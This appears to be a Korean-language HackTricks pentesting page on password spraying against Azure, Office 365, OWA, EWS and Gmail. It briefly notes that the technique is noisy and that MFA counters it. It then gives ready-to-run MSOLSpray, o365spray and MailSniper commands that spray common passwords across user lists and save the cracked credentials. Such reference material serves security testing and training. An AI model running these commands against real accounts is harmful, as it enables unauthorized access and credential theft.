 # Az - Password Spraying

{{#include ../../../banners/hacktricks-training.md}}

## Password Spray

**Azure**에서는 Azure AD Graph, Microsoft Graph, Office 365 Reporting 웹 서비스 등 **다양한 API 엔드포인트**에 대해 이 작업을 수행할 수 있습니다.

그러나 이 기술은 **매우 시끄럽고** Blue Team이 **쉽게 감지할 수** 있다는 점에 유의해야 합니다. 또한, **강제 비밀번호 복잡성**과 **MFA**의 사용은 이 기술을 거의 쓸모없게 만들 수 있습니다.

[**MSOLSpray**](https://github.com/dafthack/MSOLSpray)를 사용하여 비밀번호 스프레이 공격을 수행할 수 있습니다.
```bash
. .\MSOLSpray\MSOLSpray.ps1
Invoke-MSOLSpray -UserList .\validemails.txt -Password Welcome2022! -Verbose
```
또는 [**o365spray**](https://github.com/0xZDH/o365spray) 사용하여
```bash
python3 o365spray.py --spray -U validemails.txt -p 'Welcome2022!' --count 1 --lockout 1 --domain victim.com
```
또는 [**MailSniper**](https://github.com/dafthack/MailSniper)와 함께
```bash
#OWA
Invoke-PasswordSprayOWA -ExchHostname mail.domain.com -UserList .\userlist.txt -Password Spring2021 -Threads 15 -OutFile owa-sprayed-creds.txt
#EWS
Invoke-PasswordSprayEWS -ExchHostname mail.domain.com -UserList .\userlist.txt -Password Spring2021 -Threads 15 -OutFile sprayed-ews-creds.txt
#Gmail
Invoke-PasswordSprayGmail -UserList .\userlist.txt -Password Fall2016 -Threads 15 -OutFile gmail-sprayed-creds.txt
```
{{#include ../../../banners/hacktricks-training.md}}
